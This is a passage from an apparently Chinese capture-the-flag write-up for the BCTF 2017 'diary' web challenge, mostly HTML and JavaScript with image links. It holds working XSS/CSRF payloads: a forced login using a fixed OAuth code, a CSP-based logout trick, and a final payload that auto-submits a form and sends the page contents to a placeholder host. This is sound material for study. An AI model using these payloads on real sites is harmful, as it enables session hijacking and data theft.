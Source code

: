 ```
    //用我们的code登录
    var redir = function() {
        var code = "kAj32I0LE2KETl5ZHS6FFRJohsE4LA";
        var loginImg2 = document.createElement('img');
        loginImg2.src = 'http://diary.bctf.xctf.org.cn/o/receive_authcode?state=preauth&code=' + code;
        loginImg2.onerror = function() {
            window.location = 'http://diary.bctf.xctf.org.cn/diary/';
        }
    }


</script>
```

然后是xss2.html，上面提到的第四步

```
<meta http-equiv="Content-Security-Policy" content="img-src http://diary.bctf.xctf.org.cn">
<img src="http://diary.bctf.xctf.org.cn/accounts/logout/" onerror="redir();">
<script>
    
    var redir = function() {
        window.location = 'http://diary.bctf.xctf.org.cn/accounts/login/';
    };
</script>
```

最后是完成攻击的payload
```
<iframe src='http://119.29.192.14/bctf2017/xss/xss2.html'>
</iframe>
<script>
setTimeout(function() {
    var profileIframe = document.createElement('iframe');
    profileIframe.setAttribute('src', 'http://diary.bctf.xctf.org.cn/survey/');
    profileIframe.setAttribute('id', 'survey');
    document.body.appendChild(profileIframe);

    profileIframe.onload = function() {
        document.getElementById('survey').contentWindow.document.forms[0].suggestion.value='give me flag';
        document.getElementById('survey').contentWindow.document.forms[0].submit();


        setTimeout('location.href=\'//xxx?flag=\'+document.getElementById(\'survey\').contentWindow.document.body.innerHTML;', 3000);
    }
}, 5000);
</script>
```

![image_1bdtg2l1d198b1jph13fmffqg5g3u.png-50.5kB][10]


  [1]: http://static.zybuluo.com/LoRexxar/kkihjpctpr078cyrzrgip1ww/image_1bdt8qkc81s8ni7h17b7j21ck19.png
  [2]: http://static.zybuluo.com/LoRexxar/k3o5raq7ozrnazfd5sfeojua/image_1bdt8uheq1gjhk37fht1nf81hd2m.png
  [3]: http://static.zybuluo.com/LoRexxar/f6023kwkx4nvjivhad1bso6b/image_1bdtb3dlk36js2i1605osn1hsq13.png
  [4]: http://static.zybuluo.com/LoRexxar/gfgzgx51t10slbclxuhzcr7f/image_1bdtbdbq012ntmdqss1ep03s21g.png
  [5]: http://static.zybuluo.com/LoRexxar/jqq0ihh2mjb0phbd6auxw3hx/image_1bdtbp175hhc1nnjeg4lde1i8q1t.png
  [6]: http://static.zybuluo.com/LoRexxar/grrwwcnvdx6f6ue1v4ae5p1g/image_1bdtccqam15qf1hai1st21f661v2k2a.png
  [7]: http://static.zybuluo.com/LoRexxar/9iw4qblc7cw108tuarkkgjuh/image_1bdte4eg9k9s13urld1g8t1jmt2n.png
  [8]: http://static.zybuluo.com/LoRexxar/jz8831kzjijmhk4ewprxdtt6/image_1bdter1ojars1t0gfcf11ss1vl634.png
  [9]: http://static.zybuluo.com/LoRexxar/sn7gt5nm8dwx4h18p9binz9b/image_1bdtes5dj14jg1atr5tf1chg8hb3h.png
  [10]: http://static.zybuluo.com/LoRexxar/t0q0gcv10aov10jmy0s2f1xi/image_1bdtg2l1d198b1jph13fmffqg5g3u.png
  [11]: http://static.zybuluo.com/LoRexxar/monq5zoc8w02jgztjnndvgwt/image_1bdtg5fqebnmier3bkmcc1heb4b.png